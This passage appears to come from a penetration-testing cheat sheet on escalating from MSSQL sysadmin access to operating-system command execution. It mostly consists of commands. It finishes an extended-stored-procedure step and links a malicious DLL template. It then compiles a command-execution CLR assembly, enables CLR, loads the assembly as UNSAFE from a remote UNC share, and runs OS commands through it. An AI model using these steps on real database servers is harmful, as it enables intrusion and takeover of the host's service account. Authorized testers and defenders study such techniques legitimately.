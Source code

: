 	-- Execute the stored procedure 
	EXEC xp_calc

	-- Drop the stored procedure 
	sp_dropextendedproc 'xp_calc'
	```

	Code sample for DLL can be found here:

	- https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/MSSQL/xp_evil_template.cpp
	- https://stackoverflow.com/questions/12749210/how-to-create-a-simple-dll-for-a-custom-sql-server-extendedstored-procedure


#### Sysadmin to OS Service Account - Command Execution with CLR assemblies

- `HeidiSQL`:
	1. Creating the DLL using the file **cmd_exec.cs**.

	2. Compile the DLL that can be loaded from a local path or a UNC path: 
	
		```powershell
		C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /target:library C:\Users\labuser\Desktop\cmd_exec.cs
		```
		
	3. Execute the commands:

		```sql
		-- HeidiSQL
		-- Enable CLR 
		use msdb 

		-- Enable show advanced options on the server 
		sp_configure 'show advanced options',1 
		RECONFIGURE 

		-- Enable CLR on the server 
		sp_configure 'clr enabled',1 
		RECONFIGURE 
		GO

		-- Import the assembly and use the stored procedure: 
		---- Import the assembly from a file (UNC Path)
		CREATE ASSEMBLY my_assembly FROM '\\192.168.15.2\fileserver\cmd_exec.dll' WITH PERMISSION_SET = UNSAFE; 
		GO

		---- Link the assembly to a stored procedure 
		CREATE PROCEDURE [dbo].[cmd_exec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [my_assembly].[StoredProcedures].[cmd_exec]; 
		GO

		cmd_exec 'whoami' 
		GO
